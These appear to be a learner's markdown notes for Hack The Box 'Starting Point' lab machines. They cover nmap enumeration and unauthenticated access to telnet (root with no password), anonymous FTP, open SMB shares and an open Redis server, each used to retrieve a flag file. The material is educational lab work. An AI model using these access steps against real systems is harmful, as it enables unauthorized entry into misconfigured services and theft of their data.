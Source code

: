 ## Hack The Box - Starting point 

### connect to VPN
```
sudo openvpn ./starting-po
```

### Meow
Enumeration: finding target(s) to penetrate, including
- finding target IP address (%)
- finding target port
- learn about the service
(%: However, this scenario is that the IP address is given.)
```
# To test our connection
ping 10.129.23.8

# To enumerate ports
# NOTE: the '-sV' checks for service version
nmap -sV 10.129.23.8
```

After we learned that a telnet service is at port 23
```
telnet 10.129.23.8
```
In the telnet, a login service popped up and we get to login.
After trying some common usernames(e.g. admin, administrator, root),
we can find out that the user "root" requires no password and 
we get to pop a shell interface when we logged in. 
That's where the flag is.


### Fawn
FTP (File Transfer Protocal)
- users may authenticate themselves. 
  - Poorly configured FTP allows anonymous accounts
- client-server model architecture
  - client -----Data-----> Server
  -        <----Data------
- typical scenario
  - TCP at port 21: recieve and send files
  - SSH (Secure Shell Protocal) at port 22: remote management
  - HTTPD (Web Server) at port 80: serve web content 
- e.g. Filezilla
- FTP is often secured with SSL/TLS(FTPS) or SSH-tunneling(SFTP)
  - FTP by itself does have the ability to require credentials before allowing access to the stored files. 
  - However, the deficiency here is that traffic
containing said files can be intercepted with what is known as a Man-in-the-Middle Attack (MitM).
  - FTPS: SSL/TLS FTP
  - SFTP: SSH-tunneling FTP
    - binds survices into SSH port
    - Therefore, secured against any interception (MitM)

As before, we perform the Enumeration steps to learn about target
i.e. ping xxx; nmap xxx;
This time, we learned that there's FTP service. 
A typical misconfiguration for running FTP services allows an 'anonymous' account to access the service like any other authenticated user. The 'anonymous' username can be input when the prompt appears, followed by any password whatsoever since the service will disregard the password for this specific account.
```
# ftp client
ftp 10.129.2.11
```

Using ftp
```
# LOGIN
Name (10.129.2.11:pingjui): anonymous
Password: any_password_will_do

# show files
ftp> ls

# get files
ftp> get flag.txt

# exit
ftp> bye
```
I am not sure whether the scenario is likely or unlikely and whether the account name 'anonymous' is universal for FTP or not.

### 
- SMB (Server Message Block) Protocol
  - one way to transfer a file between two hosts(computers).
  - provides shared access to files, printers, and serial ports between endpoints on a netowrk
  - mostly on Windows machines.
    - typically see port 445 TCP oopen on the target, reserved for the SMB protocol
  - Usually run at the Application or Presentsation layaer of the OSI model
    - therefore, it relies on lwower-level protocols for transport
    - Transport layer that Microsoft SMB protocol is most often used with is **NetBIOS** over **TCP/IP(NBT)**
  - A **share**
    - SMB-enalbed storage on the network
    - can be accessed with address of the server & proper credentials.
    - a network administrator can sometimes make mistakes and therefore,
      - accidentally allow login without any valid credentials
      - using either `guest accounts`or `anonymous log-ons`
- OSI model
  - Physical-DataLink-Network-Transport-Session-Presentation-Application

Enumeration
```
# finding the service
nmap -sV 10.129.186.63 
# PORT    STATE SERVICE       VERSION
# 135/tcp open  msrpc         Microsoft Windows RPC  
# 139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
# 445/tcp open  microsoft-ds?
# Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows 

# listing shares, no password required
smbclient -L 10.129.186.63
# ssword for [WORKGROUP\pingjui]:
#
#        Sharename       Type      Comment
#        ---------       ----      -------
#        ADMIN$          Disk      Remote Admin
#        C$              Disk      Default share
#        IPC$            IPC       Remote IPC
#        WorkShares      Disk      
# SMB1 disabled -- no workgroup available

# try all Sharename ()
smbclient \\\\10.128.186.63\\ADMIN$
# tree connect failed: NT_STATUS_ACCESS_DENIED
smblicent \\\\10.128.186.63\\C$
# tree connect failed: NT_STATUS_ACCESS_DENIED
smblicent \\\\10.128.186.63\\WorkShares$
smb: \>  
# We have popped a Smb-shell
```
- NOTE: IPC$ share is of type IPC so it is not browsable nor part of the filesystem


SMB usage
```
# list files
smb: \> ls 

# change directories
smb: \> cd Amy.J

# get files
smb: \> get flag.txt

# exit
smb: \> exit
```


### Redeemer

- Redis (REmote DIctionary Server)
  - an open-source advanced NoSQL key-value data store used as a database, cache, and message broker.
  - In-memory database, store data on RAM
    - typically used for short term storage of data that needs fast retrieval
    - The website may be written to first check if the needed data is in Redis, and if not, then check the traditional
database (like MySQL or MongoDB)

Enumeration
```
# -p-: parse all ports
# this takes very long time 
nmap -p- -sV 10.129.17.127

# redis cli
# -h: specify the host's IP address
redis-cli -h 10.129.17.127
```

Interacting with the redis server
```
# gain information & statistics about the redis server
# the 'keyspace' section shows the available database & its number of keys 
10.129.17.127:6379> info
# ...
# Keyspace
# db0:keys=4,expires=0, avg_ttl=0
# ...
 
# choose the the db with index
10.129.17.127:6379> select 0

# list all key of current db
10.129.17.127:6379> keys *
# "stor", "temp", "numb", "flag"

# get value by key
10.129.17.127:6379> get flag
```

